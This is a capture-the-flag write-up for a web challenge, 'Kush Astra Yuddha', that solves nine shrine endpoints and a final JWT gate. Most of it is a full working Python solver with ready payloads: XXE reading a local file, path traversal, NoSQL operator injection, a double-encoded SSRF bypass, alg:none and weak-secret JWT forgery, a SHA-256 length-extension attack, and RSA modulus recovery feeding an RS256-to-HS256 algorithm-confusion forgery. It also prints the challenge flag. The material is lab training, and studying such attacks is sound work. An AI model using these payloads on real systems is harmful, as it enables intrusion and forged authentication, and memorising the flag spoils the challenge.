






# WEB - Kush Astra Yuddha (Kakbhushundi)

## Result

The challenge has nine independent shrine khandas and a final JWT gate. I recovered all nine through their shrine endpoints, then used the two RS256 darshan signatures to recover the RSA modulus. The gate trusts the token header's algorithm, so I signed the required Kakbhushundi claims with HS256 using the recovered public-key PEM as the HMAC key.

After defeating Ravana, the game reaches the "Lanka Falls Silent" ending. It explains that the sealed word was split into ten khandas and points to `GET /api/universe` for the map of shrines. At the bottom it shows the darshan token issued when I entered the game:



The final gate returned:

```text
Flag{Kush_Br4hm4str4_D4sh4n4n_V4dh_a8f21177cd57037b11961d87}
```

This deployment uses the `Flag{...}` format rather than the `PINAKA{...}` format used by the other challenge services.

## Nine shrine khandas

The solver queries the shrines using the challenge's intended vulnerability patterns: IDOR, XXE, prototype pollution, path traversal, NoSQL operator injection, an encoded-path SSRF bypass, `alg:none`, a weak HS256 secret (`lanka`), and a SHA-256 length-extension attack. The SSRF request double-encodes the leading `g` as `%2567` because the hosting layer decodes the incoming query once before the application applies its filter.

The recovered khandas, in gate order, are:

```text
9dd32532e232  2a486756ef52  2aa95abc0363
89555a4458ab  eb072559af0c  1fc356c2c1ef
cc143a62233e  c5655016d2f2  475b91ac0d1a
```

## Recovering the RSA modulus

For each RS256 JWT, decode its signature integer `s` and construct the PKCS#1 v1.5 encoded SHA-256 message representative `m`. The RSA relation gives `s^65537 - m = qN`. Taking the GCD for two signatures recovers the 2048-bit modulus `N`. The solver uses GMP arithmetic for the large exponentiation, then builds the corresponding SPKI PEM public key.

The final gate selects its verifier from the JWT header. The forged token changes `alg` to `HS256` and uses the recovered public-key PEM bytes as the HMAC secret. Its claims set `brahmand=swarna-lanka` and `drishti=kakbhushundi`; the request also includes all nine khandas.

## SHA-256 length extension

The Meghnad shrine exposes a message, SHA-256 digest, and the secret key length (15 bytes). The solver resumes the SHA-256 compression state from the digest, appends the correct glue padding and `&rank=trikaldarshi`, and submits the extended message and digest. This is a secret-prefix hash misuse; HMAC would prevent this extension.

## Reproduction

Run `python3 solve.py` to fetch the shrine values, construct the token, and write `submission.json`. Run `python3 solve.py --submit` to contact the final gate. Install `gmpy2` from `requirements.txt` for RSA modulus recovery; the rest uses Python's standard library.

```python
#!/usr/bin/env python3
"""Recover the nine shrine khandas and exploit the Kush Astra final gate."""
from __future__ import annotations
import base64, hashlib, hmac, json, math, os, struct, sys, urllib.parse, urllib.request
import gmpy2
from pathlib import Path
ROOT=Path(__file__).resolve().parent
BASE=os.environ.get('PINAKA_WEB_URL','https://kush-astra-yuddha.vercel.app').rstrip('/')

def b64u(x):return base64.urlsafe_b64encode(x).rstrip(b'=').decode()
def unb64u(x):return base64.urlsafe_b64decode(x+'='*((4-len(x)%4)%4))
def request(path,method='GET',body=None,content_type='application/json'):
    data=None if body is None else (body if isinstance(body,bytes) else json.dumps(body,separators=(',',':')).encode())
    headers={} if data is None else {'Content-Type':content_type}
    req=urllib.request.Request(BASE+path,data=data,headers=headers,method=method)
    with urllib.request.urlopen(req,timeout=25) as r:
        raw=r.read()
        try:return json.loads(raw)
        except Exception:return raw.decode(errors='replace')

def jsonpost(path,body):return request(path,'POST',body)
def sha256_glue(n):
    return b'\x80'+b'\x00'*((55-n)%64)+struct.pack('>Q',n*8)
def sha256_extend(mac_hex,key_len,message,suffix):
    state=[int(mac_hex[i:i+8],16) for i in range(0,64,8)]
    glue=sha256_glue(key_len+len(message)); processed=key_len+len(message)+len(glue)
    tail=suffix+sha256_glue(processed+len(suffix))
    K=[0x428a2f98,0x71374491,0xb5c0fbcf,0xe9b5dba5,0x3956c25b,0x59f111f1,0x923f82a4,0xab1c5ed5,0xd807aa98,0x12835b01,0x243185be,0x550c7dc3,0x72be5d74,0x80deb1fe,0x9bdc06a7,0xc19bf174,0xe49b69c1,0xefbe4786,0x0fc19dc6,0x240ca1cc,0x2de92c6f,0x4a7484aa,0x5cb0a9dc,0x76f988da,0x983e5152,0xa831c66d,0xb00327c8,0xbf597fc7,0xc6e00bf3,0xd5a79147,0x06ca6351,0x14292967,0x27b70a85,0x2e1b2138,0x4d2c6dfc,0x53380d13,0x650a7354,0x766a0abb,0x81c2c92e,0x92722c85,0xa2bfe8a1,0xa81a664b,0xc24b8b70,0xc76c51a3,0xd192e819,0xd6990624,0xf40e3585,0x106aa070,0x19a4c116,0x1e376c08,0x2748774c,0x34b0bcb5,0x391c0cb3,0x4ed8aa4a,0x5b9cca4f,0x682e6ff3,0x748f82ee,0x78a5636f,0x84c87814,0x8cc70208,0x90befffa,0xa4506ceb,0xbef9a3f7,0xc67178f2]
    mask=0xffffffff
    def rr(x,n):return ((x>>n)|(x<<(32-n)))&mask
    data=tail
    if len(data)%64:raise ValueError('SHA-256 extension padding error')
    for off in range(0,len(data),64):
        w=list(struct.unpack('>16I',data[off:off+64]))
        for i in range(16,64):
            s0=rr(w[i-15],7)^rr(w[i-15],18)^(w[i-15]>>3);s1=rr(w[i-2],17)^rr(w[i-2],19)^(w[i-2]>>10)
            w.append((w[i-16]+s0+w[i-7]+s1)&mask)
        a,b,c,d,e,f,g,h=state
        for i in range(64):
            S1=rr(e,6)^rr(e,11)^rr(e,25);ch=(e&f)^((~e)&g);t1=(h+S1+ch+K[i]+w[i])&mask
            S0=rr(a,2)^rr(a,13)^rr(a,22);maj=(a&b)^(a&c)^(b&c);t2=(S0+maj)&mask
            h,g,f,e,d,c,b,a=g,f,e,(d+t1)&mask,c,b,a,(t1+t2)&mask
        state=[(x+y)&mask for x,y in zip(state,[a,b,c,d,e,f,g,h])]
    return (message+glue+suffix).decode('latin1'),''.join(f'{x:08x}' for x in state)

def der_len(n):
    if n<128:return bytes([n])
    b=n.to_bytes((n.bit_length()+7)//8,'big');return bytes([0x80|len(b)])+b
def der(tag,data):return bytes([tag])+der_len(len(data))+data
def der_int(n):
    b=n.to_bytes((n.bit_length()+7)//8,'big')
    if b[0]&0x80:b=b'\0'+b
    return der(2,b)
def spki_pem(n,e=65537):
    rsa=der(0x30,der_int(n)+der_int(e))
    alg=der(0x30,bytes.fromhex('06092a864886f70d0101010500'))
    data=der(0x30,alg+der(0x03,b'\0'+rsa))
    body=base64.b64encode(data).decode();return '-----BEGIN PUBLIC KEY-----\n'+'\n'.join(body[i:i+64] for i in range(0,len(body),64))+'\n-----END PUBLIC KEY-----\n'
def forge_jwt_hs256(claims,key):
    head=b64u(json.dumps({'alg':'HS256','typ':'JWT'},separators=(',',':')).encode())
    payload=b64u(json.dumps(claims,separators=(',',':')).encode())
    signing=(head+'.'+payload).encode();sig=hmac.new(key,signing,hashlib.sha256).digest()
    return head+'.'+payload+'.'+b64u(sig)
def recover_modulus(tokens):
    e=65537;prefix=bytes.fromhex('3031300d060960864801650304020105000420');vals=[]
    for token in tokens:
        h,p,s=token.split('.');sig=int.from_bytes(unb64u(s),'big')
        digest=hashlib.sha256((h+'.'+p).encode()).digest()
        t=prefix+digest;em=b'\x00\x01'+b'\xff'*(256-len(t)-3)+b'\x00'+t
        m=int.from_bytes(em,'big');vals.append(abs(gmpy2.mpz(sig)**e-gmpy2.mpz(m)))
    n=int(gmpy2.gcd(vals[0],vals[1]))
    # Strip any accidental small multiplier by checking all divisors against signatures.
    while n.bit_length()>2048:
        for q in range(2,1000):
            if n%q==0:n//=q;break
        else:break
    if n.bit_length()<2040:raise RuntimeError(f'RSA modulus recovery failed ({n.bit_length()} bits)')
    return n

def khanda(response,*keys):
    if isinstance(response,str):raise RuntimeError(response)
    for key in keys:
        if key in response:return response[key]
    if isinstance(response.get('body'),dict):
        for key in keys:
            if key in response['body']:return response['body'][key]
    raise RuntimeError(f'no khanda in response {response}')

def main():
    out=[]
    def add(name,value):
        if not value:raise RuntimeError(f'{name} returned an empty khanda')
        print(f'{name}: {value}');out.append(value)
    add('Tataka IDOR',khanda(request('/api/katha?id=0'),'khanda'))
    xml=b'<!DOCTYPE y [<!ENTITY xxe SYSTEM "file:///var/task/api/agni-khanda.scroll">]><yagna><oblation>&xxe;</oblation></yagna>'
    add('Subahu XXE',khanda(request('/api/homa','POST',xml,'application/xml'),'consumed','khanda'))
    add('Maricha prototype pollution',khanda(jsonpost('/api/maya',{'__proto__':{'darshan':'rishi'},'darshan':'rishi'}),'khanda'))
    add('Viradha traversal',khanda(request('/api/patra?'+urllib.parse.urlencode({'scroll':'../sealed/prithvi-khanda.scroll'})),'khanda'))
    add('Khara NoSQL',khanda(jsonpost('/api/dwar',{'naam':'dwarpal','mudra':{'$ne':''}}),'khanda'))
    reach=urllib.parse.quote(BASE+'/api/%2567arbha',safe=':/%')
    add('Kabandha SSRF',khanda(request('/api/bhuja?reach='+reach),'khanda'))
    none_token=b64u(b'{"alg":"none","typ":"JWT"}')+'.'+b64u(b'{"rank":"senapati"}')+'.'
    add('Akshayakumara alg:none',khanda(jsonpost('/api/mudra',{'token':none_token}),'khanda'))
    header=b64u(b'{"alg":"HS256","typ":"JWT"}');payload=b64u(b'{"rank":"deva","woke":true}')
    tok=header+'.'+payload+'.'+b64u(hmac.new(b'lanka',(header+'.'+payload).encode(),hashlib.sha256).digest())
    add('Kumbhakarna weak HS256',khanda(jsonpost('/api/parvat',{'token':tok}),'khanda'))
    kav=request('/api/kavach');msg=unb64u(kav['message_b64']);suffix=b'&rank=trikaldarshi'
    forged_msg,forged_mac=sha256_extend(kav['mac'],int(kav['keyLength']),msg,suffix)
    add('Meghnad SHA-256 length extension',khanda(jsonpost('/api/kavach',{'message_b64':b64u(forged_msg.encode('latin1')),'mac':forged_mac}),'khanda'))
    darshans=[request('/api/darshan')['token'] for _ in range(2)]
    n=recover_modulus(darshans);pem=spki_pem(n)
    token=forge_jwt_hs256({'brahmand':'swarna-lanka','drishti':'kakbhushundi'},pem.encode())
    body={'token':token,'khandas':out}
    (ROOT/'submission.json').write_text(json.dumps(body,indent=2)+'\n')
    print('Recovered RS256 modulus:',n.bit_length(),'bits')
    print('Forged darshan claims: brahmand=swarna-lanka, drishti=kakbhushundi')
    if '--submit' in sys.argv:
        result=jsonpost('/api/flag',body)
        print('Final gate:',json.dumps(result,indent=2))
        (ROOT/'transcripts').mkdir(exist_ok=True)
        (ROOT/'transcripts'/'04_flag.json').write_text(json.dumps(result,indent=2)+'\n')
        if result.get('flag'):print('Flag:',result['flag'])
if __name__=='__main__':main()
```










